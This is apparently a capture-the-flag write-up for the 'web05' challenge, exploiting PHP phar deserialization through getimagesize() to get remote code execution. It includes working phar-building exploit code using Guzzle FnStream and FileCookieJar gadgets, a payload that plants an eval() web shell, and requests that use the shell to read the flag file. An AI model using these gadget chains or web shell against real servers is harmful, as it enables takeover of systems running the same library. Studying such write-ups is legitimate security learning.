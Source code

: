 # web05 (Point: 370)

![web01](images/5.1.png)

## TL;DR

**Phar Deserialization using getimagesize() to Rce.**

## Vulnerability

### Source code leak

Doing a view-source on page displays the location of source code `src.zip`.

### Phar deserialization

In fetchImage.php Line 123, we have
```
images[] = [
            'Src' => absoluteSource($element->src, $url), // <img [src]> 
            'Width' => $element->width,
            'Height' => $element->height,
        ];
...
foreach ($images as $imageInfo) {
    $image = $imageInfo['Src']; // get source
    ...
    list($width, $height) = getimagesize($image);
}
```

* So if we host a page on some server http://YOUR_SERVER/page.html, this code will look for all images in the page and do a getimagesize on it.
* So a image src like `<img src='phar://../file'>` will take src `phar://../file` and `getimagesize('phar://../file')`. So that gets phar deserialization.


### Phar gadgets

So we have 2 contenders for phar gadget.(Just search for __destruct)
* FileCookieJar.php 
    ```
    public function __destruct()
    {
        $this->save($this->filename);
    }
    ```
* Fnstream.php
    ```
    public function __destruct()
    {
        if (isset($this->_fn_close)) {
            call_user_func($this->_fn_close);
        }
    }
    ```

### No proper check for valid image type

Server only checks if uploaded file have valid extension and mime type and nothing else.


### EXPLOIT

1. 1st we will use `Fnstream.php` to call `phpinfo()` and get Full path disclosure.
    ```
    namespace GuzzleHttp\Psr7 {
        
        class FnStream { public $_fn_close = "phpinfo"; }
        
        $phar = new \Phar("exp1.phar");
        
        $phar->startBuffering();
        $phar->addFromString("test.txt", "test");
        $phar->setStub("<?php __HALT_COMPILER();");
        
        $payload = new FnStream();
        $phar->setMetadata($payload);
        $phar->stopBuffering();
    }
    ``` 
    This will output `exp1.phar`.

2. Upload the `exp1.phar` to the app and note the path `upload/3a0a6pipr3vv0b3qkokbuf92f3/e45036cd2596c9daa1d8bd22.jpg`

3. Host an `test.html` on our server with contents:
    ```
        <html>
        <head></head>
        <body>
            <img src="phar://../upload/3a0a6pipr3vv0b3qkokbuf92f3/e45036cd2596c9daa1d8bd22.jpg" />
        </body>
        </html>
    ```
    and use the **Fetch From URL** functionality to fetch the url `http://1.2.3.4:9001/test.html`

    ![web5.2](images/5.2.png)

4. Now we will use FileCookieJar destructor to obtain a full shell. Use the following code to generate exp2.phar and save it exp2.jpg

    ```
    <?php
    use GuzzleHttp\Client;
    include('vendor/autoload.php');
    ​
    $jar = new GuzzleHttp\Cookie\FileCookieJar('/app/upload/3a0a6pipr3vv0b3qkokbuf92f3/shell.php', true);
    $jar->setCookie(new GuzzleHttp\Cookie\SetCookie([
        'Domain'  => 'ass',
        'Name'    => 'kek',
        'Value'   => '<?php eval($_GET[1]); ?>',
        'Discard' => false
    ]));
    ​
    $phar = new \Phar("exp2.phar");
    $phar->startBuffering();
    $phar->addFromString("test.txt", "test");
    $phar->setStub("<?php __HALT_COMPILER();");
    $phar->setMetadata($jar);
    $phar->stopBuffering();
    ```
 Follow the step 2,3 and 4 to upload and execute the phar and if successfull, you will have a shell at http://52.78.36.66/upload/3a0a6pipr3vv0b3qkokbuf92f3/shell.php

 5. Read the flag

    http://52.78.36.66/upload/3a0a6pipr3vv0b3qkokbuf92f3/shell.php?1=readfile("/flag.txt");


### FLag

WhiteHat{ph4r_d3_w1th_4_t1ny_b4ck_do0r_7fc88491}

![Flag5](images/5.3.png)


